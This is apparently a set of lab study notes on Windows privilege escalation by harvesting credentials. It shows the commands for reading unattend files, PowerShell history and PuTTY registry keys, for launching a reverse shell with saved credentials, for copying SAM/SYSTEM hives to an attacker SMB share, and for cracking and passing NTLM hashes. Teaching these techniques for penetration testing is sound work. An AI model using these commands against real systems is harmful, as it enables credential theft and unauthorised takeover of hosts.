






Passwords
Harvesting Passwords from Usual Spots
A) Unattended Windows Installations:
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
• C:\Unattend.xml
• C:\Windows\Panther\Unattend.xml
• C:\Windows\Panther\Unattend\Unattend.xml
• C:\Windows\system32\sysprep.inf
• C:\Windows\system32\sysprep\sysprep.xml
As part of these files, you might encounter credentials:
<Credentials>
<Username>Administrator</Username>
<Domain>thm.local</Domain>
<Password>MyPassword123</Password>
</Credentials>
B) Powershell History:
Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:
Cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile.
Powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Example:

C) Saved Windows Credentials:
Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
cmdkey /list
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
runas /savecred /user:admin cmd.exe
Example:

Or To run a reverse shell.
List any saved credentials:
cmdkey /list
Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.
Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
runas /savecred /user:admin C:\PrivEsc\reverse.exe
D) IIS Configuration:
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
Here is a quick way to find database connection strings on the file:
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
Example:

E) Retrieve Credentials for Softwares - Putty:
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
Note: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.
Example:

F) Security Access Manager (SAM)
The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the C:\Windows\Repair\ directory.
Transfer the SAM and SYSTEM files to your Kali VM (Using smbserver):
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
Note: The above is having issues with new version of python. (Will try in next update)
Or
Use Impacket-Secretdump to get the hashes
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

Crack the admin NTLM hash using hashcat:
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
You can use the cracked password to log in as the admin using winexe or RDP.
G) Passing The Hash
Why crack a password hash when you can authenticate using the hash?
Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:
pth-winexe -U 'admin%hash' //10.10.59.176 cmd.exe
Important Note: Similar to impacket-psexec, we need to give the full hash value ie. LM_Hash:NTLM_Hash
eg. hash to supply for user admin : aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da
Example:

END